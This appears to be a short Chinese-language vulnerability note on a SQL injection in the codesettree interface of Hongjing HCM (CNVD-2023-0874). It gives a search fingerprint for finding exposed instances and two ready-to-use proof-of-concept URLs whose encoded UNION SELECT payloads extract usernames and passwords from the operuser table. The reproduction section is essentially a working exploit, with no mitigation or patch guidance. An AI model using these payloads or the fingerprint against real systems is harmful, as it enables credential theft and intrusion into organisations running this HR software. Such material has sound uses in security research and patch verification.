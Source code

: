 # 宏景 HCM codesettree SQL注入漏洞 CNVD-2023-0874

# 宏景 HCM codesettree SQL注入漏洞 CNVD-2023-0874

## 漏洞描述

宏景 HCM codesettree 接口存在SQL注入漏洞，攻击者通过漏洞可以获取到登陆系统的账号密码和数据库信息

## 漏洞影响

宏景 HCM

## 网络测绘

```
app="HJSOFT-HCM"
```

## 漏洞复现

登陆页面

![image-20230704113309837](/images/image-20230704113309837.png)

验证POC

```
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20all~20select~20~27~31~27~2cusername~20from~20operuser~20~2d~2d
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20all~20select~20~27~31~27~2cpassword~20from~20operuser~20~2d~2d
```

![image-20230704113329354](/images/image-20230704113329354.png)

